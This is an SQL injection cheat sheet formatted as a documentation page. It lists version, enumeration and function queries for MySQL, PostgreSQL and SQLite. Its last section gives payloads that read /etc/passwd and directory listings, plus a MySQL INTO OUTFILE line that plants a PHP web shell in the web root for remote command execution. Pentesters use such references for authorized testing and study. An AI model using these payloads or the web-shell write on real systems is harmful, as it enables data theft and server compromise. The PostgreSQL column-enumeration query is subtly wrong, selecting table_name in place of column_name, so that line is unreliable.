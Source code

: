 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "topics"
weight: 620
toc: true
---
```


## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL          | SQLite              | MySQL               |
| ------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`        | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`          | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`           | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`        | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`       | *Unknown*           | `SLEEP(4)`          |

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(table_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## File read/write & RCE

### PostgreSQL

```
select pg_ls_dir('.');
select pg_read_file('/etc/passwd');
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
